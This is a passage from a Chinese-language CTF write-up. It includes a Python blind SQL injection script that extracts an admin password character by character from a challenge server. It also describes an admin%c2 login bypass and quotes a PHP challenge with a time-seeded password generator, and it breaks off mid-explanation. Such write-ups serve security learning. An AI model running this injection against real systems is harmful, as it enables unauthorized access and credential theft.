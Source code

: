 然后通过过滤函数，找到了去年sysclover的一篇Writeup 然后才发现我前段时间遇到过这个操作符构造注入了，可是当时比较忙，没时间做，因此技能点没有get

脚本长这样，虽然丑点，但是能跑出passwd



```
# --coding:utf-8--    import requests
url="http://117.34.111.15:89/?action=show"
passwd=""
lists="1234567890QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm"
for i in xrange(1,33):
    print i
    for p in lists:
        param={'username':"-1'=(ascii(mid((passwd)from("+str(i)+")))="+str(ord(p))+")='0"}
        print requests.post(url,data=param).content
        if "admin" in requests.post(url,data=param).content:
            passwd=passwd+p
            break
print passwd
```

登陆就是flag 登陆这里的admin判断直接用admin%c2这个去绕过，因为刚前段时间看过ph师傅的最近刚写的文章，然后很快就反应过来了

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0173ed74a79be6758e.png)

**Wrong**

随手就出swp文件

```
3 error_reporting(0);
  4 function create_password($pw_length =  10)
  5 {
  6 $randpwd = "";
  7 for ($i = 0; $i &lt; $pw_length; $i++)
  8 {
  9 $randpwd .= chr(mt_rand(33, 126));
 10 }
 11 return $randpwd;
 12 }
 13 
 14 session_start();
 15 mt_srand(time());
 16 $pwd=create_password();
 17 
 18 if($pwd==$_GET['pwd'])
 19 {
 20   if($_SESSION['userLogin']==$_GET['login'])
 21 echo "Good job, you get the key";
 22 }
 23 else
 24 {echo "Wrong!";}
```

刚开始丢给队友做，队友做了好久，然后硬是没刚出来。 看了一下，思路大致如下
